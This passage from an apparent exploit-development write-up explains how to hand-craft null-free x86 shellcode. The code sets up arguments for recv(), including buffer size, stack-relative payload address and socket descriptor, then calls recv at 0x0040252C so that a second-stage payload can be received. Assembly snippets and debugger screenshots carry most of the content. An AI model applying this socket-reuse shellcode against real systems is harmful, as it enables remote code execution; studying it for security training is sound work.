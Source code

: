 That's one argument down. The next is "BufSize". Shellcode should only be around 350~ish bytes, so we don't need much. Let's just use a round 1024 bytes, which is 0x400 in hex. To get around using nulls, we can just manipulat the "high end" of BX like so:

```
	ADD BH, 4
	PUSH EBX
```

![](https://i.imgur.com/hLZZQBW.png)

BH represents the 2nd byte in the `EBX` register, so by adding 4 to that, it's increased to `0x00000400` without having to use nulls.

Next arg to be set is the address where we want this payload to go. Again, hard-coding isn't an option, and we also want to make sure execution will be passed to the second payload. The easiest thing to do is to is calculate the distance look at where the A buffer ends, look at `ESP`, and figure out the difference.

`ESP` at this point is at `0x123F9A0`. The last A in my buffer is at `0x0123FA07`. My last A is 0x67 bytes away from `ESP`. Wanting to keep the stack an even number though, I just settle 0x64 byes:

![](https://i.imgur.com/hbirniw.png)

To get this value on the stack:

```
	PUSH ESP - put the value of ESP on the stack
	POP EBX - take that value OFF the stack and put it into EBX
	ADD EBX, 0x64 - increase the value by 0x64
	PUSH EBX - put that value onto the stack
```

![](https://i.imgur.com/gpFU3wV.png)

We're almost there. Only the socket descriptor is left. We can push that with a single instruction, but it's not as simple as `PUSH EAX`. `EAX` holds `0x0123FB94`. If we PUSH that, the stack will have `0x0123FB94` on it. The socket descriptor is `0x000000C8` though. So we use:

```
	PUSH DWORD PTR DS:[EAX]
```

This means "push the doubleword that is at the memory address `0x0123FB94` onto the stack"

![](https://i.imgur.com/SRhqc5N.png)

Now for another slick trick to avoid null bytes.

Recall that `recv(`) is at `0x0040252C`. We can't just put this in the shellcode because the null will terminate the rest of the payload, but there's a way around this:

```
	MOV EAX, 0x40252C90 - Move this value into EAX. This is our address minus the 00 at the front, and a NOP added on the end for padding.
	SHR EAX, 8 - shift the EAX register RIGHT by 8 bits. This will remove the 90 on the end, and add a 00 on the front.
	CALL EAX - make the syscall to recv()
```
